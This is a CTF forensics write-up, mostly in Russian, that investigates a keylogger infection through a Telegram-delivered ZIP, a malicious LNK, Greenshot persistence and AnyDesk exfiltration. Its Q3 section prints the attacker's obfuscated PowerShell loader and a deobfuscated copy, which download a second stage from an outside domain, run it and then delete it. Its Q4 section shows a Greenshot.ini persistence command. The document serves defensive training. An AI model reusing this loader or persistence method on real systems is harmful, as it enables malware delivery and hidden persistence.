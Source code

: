```yaml
---
link: https://cyberdefenders.org/blueteam-ctf-challenges/krakenkeylogger/
tags:
  - LECmd
  - Timeline
  - DBBrowser
---
```

---
## Scenario
>An employee at a large company was assigned a task with a two-day deadline. Realizing that he could not complete the task in that timeframe, he sought help from someone else. After one day, he received a notification from that person who informed him that he had managed to finish the assignment and sent it to the employee as a test. However, the person also sent a message to the employee stating that if he wanted the completed assignment, he would have to pay $160.  
>The helper's demand for payment revealed that he was actually a threat actor. The company's digital forensics team was called in to investigate and identify the attacker, determine the extent of the attack, and assess potential data breaches. The team must analyze the employee's computer and communication logs to prevent similar attacks in the future.

---
# How to solve?
---
## Q1. What is the the web messaging app the employee used to talk to the attacker?

Исходя из сценария:
>After one day, he received a **notification** from that person who informed him that he had managed to finish the assignment and sent it to the employee as a test.

Было решено проверить виндовые уведомления, которые находятся по пути:
`C:\Users\OMEN\AppData\Local\Microsoft\Windows\Notifications\wpndatabase.db`
Открыв с помощью `DB Browser for SQLite` и просмотрев таблицу `Notification` можно обнаружить уведомление из мессенджера **Телеграм**:

![telegram](./telegram.png)

> Answer: **telegram**

## Q2. What is the password for the protected ZIP file sent by the attacker to the employee?

В этом же уведомлении из скрина выше находится пароль к архиву
> Answer: @1122d

## Q3. What domain did the attacker use to download the second stage of the malware?

Вот тут пришлось уже покопаться. Решил проверить содержимое архива, который конечно же находится в директории загрузок пользователя **OMEN**.
Архив содержит DOCX документ, и подозрительный LNK-файл ярлык с именем **templet.lnk**.

Анализ файла на VirusTotal подтвердил его вредоносность:
![virustotal](./virustotal.png)

Воспользовавшись утилитой **LECmd.exe**:
```bash
LECmd.exe -f '.\templet.lnk' --csv result;                  
```
Далее открыв файл в TimelineExplorer, можно обнаружить, что данный файл запускает процесс **powershell.exe** с обфусцированными параметрами:

Запуск **Powershell.exe**
```bash
..\..\..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

Параметры:
```powershell
-ExecutionPolicy UnRestricted $ProgressPreference = 0;
function nvRClWiAJT($OnUPXhNfGyEh){$OnUPXhNfGyEh[$OnUPXhNfGyEh.Length..0] -join('')};
function sDjLksFILdkrdR($OnUPXhNfGyEh){
$vecsWHuXBHu = nvRClWiAJT $OnUPXhNfGyEh;
for($TJuYrHOorcZu = 0;$TJuYrHOorcZu -lt $vecsWHuXBHu.Length;$TJuYrHOorcZu += 2){
try{$zRavFAQNJqOVxb += nvRClWiAJT $vecsWHuXBHu.Substring($TJuYrHOorcZu,2)}
catch{$zRavFAQNJqOVxb += $vecsWHuXBHu.Substring($TJuYrHOorcZu,1)}};$zRavFAQNJqOVxb};
$NpzibtULgyi = sDjLksFILdkrdR 'aht1.sen/hi/coucys.erstmaofershma//s:tpht';
$cDkdhkGBtl = $env:APPDATA + '\' + ($NpzibtULgyi -split '/')[-1];
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$wbpiCTsGYi = wget $NpzibtULgyi -UseBasicParsing;
[IO.File]::WriteAllText($cDkdhkGBtl, $wbpiCTsGYi);
& $cDkdhkGBtl;
sleep 3;
rm $cDkdhkGBtl;
```

Моя попытка деобфускации кода:
```powershell
-ExecutionPolicy UnRestricted $ProgressPreference = 0;
function reverseCharArray($charArray){
  $charArray[$charArray.Length..0] -join('')
}; 
function processString($charArray ){
  $reversedCharArray = reverseCharArray $charArray;
  for($i = 0; $i -lt $reversedCharArray.Length; $i += 2) {
    try {
      $resultString += reverseCharArray $reversedCharArray.Substring($i,2)
    }
    catch {
      $resultString += $reversedCharArray.Substring($i,1)
      }
    };
  $resultString
};

$resultURL = processString 'aht1.sen/hi/coucys.erstmaofershma//s:tpht';
$filePath = $env:APPDATA + '\' + ($resultURL -split '/')[-1];
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$maliciousCode = wget $resultURL -UseBasicParsing;
[IO.File]::WriteAllText($filePath, $maliciousCode);
& $filePath;
sleep 3;
rm $filePath;
```
*Первая функция* переворачивает массив символов и возвращает его как строку.
*Вторая функция* переворачивает входной массив, затем обрабатывает его по два символа за раз, пытаясь перевернуть каждую пару и добавлять к результату; если остается один символ, добавляет его без изменения.

Проделав функции на данной строке мы получим домен `masherofmasters[.]cyou`
> Answer: masherofmasters.cyou

## Q4. What is the name of the command that the attacker injected using one of the installed LOLAPPS on the machine to achieve persistence?

Загуглив что токое LOLAPPS, мы обнаружим сайт https://lolapps-project.github.io/ который содержит легитимные утилиты, которые могут использоваться в нелегитимных целях. 

В директории `C:\Users\OMEN\AppData\Roaming\` мы обнаружим данные установленных приложений. Среди них: **Adobe, AnyDesk, Greenshot, Microsoft**.

Согласно ресурсу LOLAPPS, приложение Greenshot как раз может использоваться для закрепления на хосте:
> Any Greenshot plugin can contain persistence, the simplest being the "External command plugin" which uses command line; Modify the `Greenshot.ini` file in *"%AppData%\Greenshot\"*, add an `ExternalCommand` configuration, add a new name to the "Commands" parameter, add the payload in the `Commandline.<name>` and `Argument.<name>`, add the name to the "Destinations" parameter. 

Директория Greenshot как раз содержит конфиг файл `Greenshot.ini`. Проанализировав его содержимое, можно обнаружить вышеописанный метод закрепления:
```ini
; The commandline for the output command.
Commandline.MS Paint=C:\Windows\System32\mspaint.exe
Commandline.jlhgfjhdflghjhuhuh=C:\Windows\system32\cmd.exe

; The arguments for the output command.
Argument.MS Paint="{0}"
Argument.jlhgfjhdflghjhuhuh=/c "C:\Users\OMEN\AppData\Local\Temp\templet.lnk"
```

> Answer: jlhgfjhdflghjhuhuh


## Q5. What is the complete path of the malicious file that the attacker used to achieve persistence

Тут необходимо указать полный путь до вредоносного файла из конфиг файла.

> Answer: C:\Users\OMEN\AppData\Local\Temp\templet.lnk

## Q6. What is the name of the application the attacker utilized for data exfiltration?

Ранее в директории `C:\Users\OMEN\AppData\Roaming\` мы обнаружили данные установленных приложений. Среди них оказался **AnyDesk**. 

> Answer: AnyDesk

## Q7. What is the IP address of the attacker?
Рассмотрим содержимое директории **AnyDesk**, а именно файл `C:Users\OMEN\AppData\Roaming\AnyDesk\ad.trace`.

> Журнал **ad.trace** содержит отладочную информацию, что позволяет определить **IP-адрес**, с которого производилось подключение

Открыв его с помощью текстового редактора, можно увидеть логи ПО AnyDesk.

Поискав по словосочетанию `Connection established`, можно обнаружить следующую информацию:
```log
   info 2023-07-12 08:56:17.144       lsvc   6572   5380   27           anynet.relay_connector - Connection established.
   info 2023-07-12 08:56:17.144       lsvc   6572   5380   27           anynet.relay_connector - Relay connector stopped.
   info 2023-07-12 08:56:17.144       lsvc   6572   5380                       fiber.scheduler - Fiber 27 'relay_connector' (parent: 25) terminated.
   info 2023-07-12 08:56:17.144       lsvc   6572   5380   25                anynet.relay_conn - External address: 77.232.122.31:34791.
```

> Answer: 77.232.122.31
